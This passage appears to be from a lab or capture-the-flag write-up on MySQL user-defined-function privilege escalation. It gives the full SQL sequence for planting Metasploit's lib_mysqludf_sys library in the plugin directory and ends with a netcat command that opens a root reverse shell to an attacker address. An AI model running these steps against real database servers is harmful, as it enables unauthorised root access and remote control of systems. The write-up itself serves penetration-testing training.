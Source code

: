 In order to proceed to the exploit we will use the following payload : https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql 

In particular : https://github.com/rapid7/metasploit-framework/blob/master/data/exploits/mysql/lib_mysqludf_sys_64.so 

We could load this file using out ftp access, it will then be located under : `/var/www/html/`

We could then proceed to the exploit with our existing connection to the DB :

```bash
mysql> use mysql;

mysql> create table hack(line blob);

mysql> insert into hack values(load_file('/var/www/html/lib_mysqludf_sys_64.so '));

mysql> select * from hack into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';

# Launch this last step with a nc connection waiting on port 22 :
mysql> select sys_exec('nc -e /bin/sh 192.168.49.194 22');
```

And we have access on our root reverse shell :
![](attachments/Pasted%20image%2020220302223251.png)
